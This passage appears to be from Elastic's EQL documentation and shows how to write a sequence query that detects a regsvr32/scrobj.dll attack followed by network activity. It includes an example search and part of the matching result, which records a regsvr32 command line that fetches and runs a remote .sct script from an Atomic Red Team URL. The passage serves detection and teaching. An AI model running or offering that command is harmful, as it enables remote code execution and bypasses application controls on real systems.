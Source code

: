
## Determine the likelihood of success [eql-ex-detemine-likelihood-of-success]

In many cases, attackers use malicious scripts to connect to remote servers or download other files. Use an [EQL sequence query](/reference/query-languages/eql/eql-syntax.md#eql-sequences) to check for the following series of events:

1. A `regsvr32.exe` process
2. A load of the `scrobj.dll` library by the same process
3. Any network event by the same process

Based on the command line value seen in the previous response, you can expect to find a match. However, this query isn’t designed for that specific command. Instead, it looks for a pattern of suspicious behavior that’s generic enough to detect similar threats.

```console
GET /my-data-stream/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == "regsvr32.exe"]
      [library where dll.name == "scrobj.dll"]
      [network where true]
  """
}
```
% TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

```console-result
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          2012
        ],
        "events": [
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
```